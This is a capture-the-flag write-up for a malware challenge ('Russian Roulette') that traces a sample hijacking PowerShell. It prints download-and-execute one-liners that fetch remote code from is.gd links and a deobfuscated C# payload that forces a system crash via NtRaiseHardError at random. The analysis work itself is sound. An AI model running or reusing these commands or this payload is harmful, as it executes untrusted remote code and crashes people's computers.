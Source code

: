 # Russian Roulette

**Description:**

<small>Author: @JohnHammond</small><br><br>My PowerShell has been acting <i>really weird!!</i> It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! <b>:(</b> <br><br> <b><span style="color:red;">WARNING:</span> Please examine this challenge inside of a virtual machine  for your own security. Upon invocation there is a real possibility that your VM may crash.</b> <br><br> <b>NOTE: Archive password is <code>russian_roulette</code></b> <br><br> <b>Download the file(s) below.</b><br>


**Category:** Malware

**Difficulty:** hard

**File:** [russian_roulette.zip](russian_roulette.zip)

## Solution

Loaded the file to tria.ge for analysis.  
![alt text](image-1.png)

![alt text](image-2.png)

Found this command in the analysis:
```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -e aQB3AHIAIABpAHMALgBnAGQALwB6AGQANABoAFoAbgAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```

Decoded it to show `iwr is.gd/zd4hZn -o $env:TMP/.cmd;& $env:TMP/.cmd`

This command downloads a file named `powershell.zip` from is.gd/zd4hZn, which turns out to be a unicode text file.
![alt text](image-3.png)

Ran strings command `strings powershell.zip > stringsPowershell` and the output resembles an obfucated batch file.
![alt text](image-4.png)


Used batch interpreter to deobfuscate: 
`python3 ~/Downloads/batch_deobfuscator-master/batch_deobfuscator/batch_interpreter.py --file stringsPowershell > deobfuscate.txt` 

The output revealed commands execuiting `cmd /c exit [some number]` repeatedly, which matched the tria.ge analysis. 
![alt text](image-4.png)

Noticed another command: 
`powershell  -e aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==` 

That decods to `iwr is.gd/QRDyiP|iex` 

It downloads a file named conhost.log. Running `file` on it revealed it was ASCII text.

After formatting the file
```C#
$s='
	using System;
	using System.Text;
	using System.Security.Cryptography;
    using System.Runtime.InteropServices;
	using System.IO;

	public class X
	{
		[DllImport("ntdll.dll")]
		public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);

		[DllImport("ntdll.dll")]
		public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);

		public static unsafe string Shot()
		{
			bool o;
			uint r;
			RtlAdjustPrivilege(19,true,false,out o);
			NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);

			byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");

			byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");

			byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");

			using(Aes a=Aes.Create())
			{
				a.Key=k;
				a.IV=i;
				ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);
				using(var m=new MemoryStream(c))
				using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))
				using(var s=new StreamReader(y))
				{
					return s.ReadToEnd();
				}
			}
		}
	}';

	$c=New-Object System.CodeDom.Compiler.CompilerParameters;
	$c.CompilerOptions='/unsafe';
	$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;
	if((Get-Random -Min 1 -Max 7) -eq 1)
	{
		[X]::Shot()
	}
Start-Process "powershell.exe"
```

The code performs AES decryption on the base64 encoded strings. 

Used the following C# code to extract the flag:

```C#
using System;
using System.Text;
using System.Security.Cryptography;
using System.Runtime.InteropServices;
using System.IO;

public class roulette
{
    public static void Main(string[] args)
    {
        
		byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");

		byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");

		byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");
		
		string output;
		
			using(Aes a=Aes.Create())
			{
				a.Key=k;
				a.IV=i;
				ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);
				using(var m=new MemoryStream(c))
				using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))
				using(var s=new StreamReader(y))
				{
					output = s.ReadToEnd();
				}
			}
		Console.WriteLine(output);
    }
}
```
The final flag of `flag{4e4f266d44717ff3af8bd92d292b79ec}`